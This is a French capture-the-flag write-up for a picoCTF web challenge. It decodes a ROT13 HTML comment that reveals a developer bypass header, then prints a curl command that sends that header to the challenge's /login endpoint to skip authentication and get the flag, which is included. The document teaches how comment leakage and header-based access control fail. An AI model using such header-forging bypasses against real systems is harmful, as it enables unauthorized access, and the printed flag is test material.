


## Métadonnées

- **Catégorie :** Web-Exploitation Information-Leakage Access-Control-Bypass
    
- **Outils :** CyberChef (ROT13), cURL
    
- **Flag :** `picoCTF{brut4_f0rc4_83812a02}` 
    

## Description du challenge

L'investigation porte sur un individu nommé `ctf-player` suspecté de cacher des données dans un portail web restreint. Nous connaissons son adresse email (`ctf-player@picoctf.org`), mais pas son mot de passe. L'objectif est de trouver une porte dérobée ou une mauvaise configuration laissée par les développeurs pour forcer l'accès.

## Étape 1 : Analyse du code source (Information Leakage)

Lorsqu'on inspecte le code source HTML de la page d'accueil ou qu'on effectue une requête initiale, on découvre un commentaire dissimulé dans le code :

Le préfixe `ABGR` et la structure des mots suggèrent une forme d'obfuscation classique.

```
<!-- ABGR: Wnpx - grzcbenel olcnff: hfr urnqre "K-Qri-Npprff: lrf" --> <!-- Remove before pushing to production! -->
```



##  Étape 2 : Déchiffrement du secret (ROT13)

En passant la chaîne de caractères dans l'outil **CyberChef** avec l'opération **ROT13** (décalage de 13 caractères), le texte est traduit en clair :

> **Message décodé :** `NOTE: Jack - temporary bypass: use header "X-Dev-Access: yes"`

Le développeur ("Jack") a implémenté un mécanisme de contournement temporaire pour ses tests, basé sur la présence d'un en-tête HTTP spécifique : `X-Dev-Access: yes`. Il a oublié de supprimer ce commentaire avant de déployer l'application en production.

## Étape 3 : Exploitation du Bypass via l'API

L'analyse du script JavaScript à la fin du document HTML nous montre que le formulaire envoie une requête de type `POST` au format JSON vers l'adresse `/login` :

```
fetch('/login', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify(formData)
})
```

Pour valider l'authentification et récupérer le flag, nous devons envoyer la requête `POST` directement sur l'API `/login` en lui fournissant l'adresse email connue et en injectant notre en-tête secret `X-Dev-Access: yes`.

Exécute la commande `curl` suivante dans ton terminal :

```bash
curl -s -X POST http://amiable-citadel.picoctf.net:52364/login \
     -H "Content-Type: application/json" \
     -H "X-Dev-Access: yes" \
     -d '{"email":"ctf-player@picoctf.org", "password":"any"}' | jq
```

###  Résultat  :

Le serveur valide l'accès grâce au header et répond directement avec le format JSON de l'application :

```
{
  "success": true,
  "email": "ctf-player@picoctf.org",
  "firstName": "pico",
  "lastName": "player",
  "flag": "picoCTF{brut4_f0rc4_83812a02}"
}
```



## Concepts clés

### 1. Fuite de commentaires (Comment Leaking)

L'inclusion de commentaires techniques (identifiants, flags de debug, mécanismes de contournement) dans le code source HTML livré au client est une mine d'or pour un attaquant. Même obfusqué légèrement (ROT13, Base64), un secret reste facilement lisible.

### 2. Contrôle d'accès basé sur des paramètres non sûrs

Faire confiance à un en-tête HTTP arbitraire comme `X-Dev-Access` pour accorder des privilèges administratifs ou contourner une phase d'authentification complète est une faille critique de logique d'application. N'importe quel attaquant capable de forger une requête HTTP peut ajouter cet en-tête.
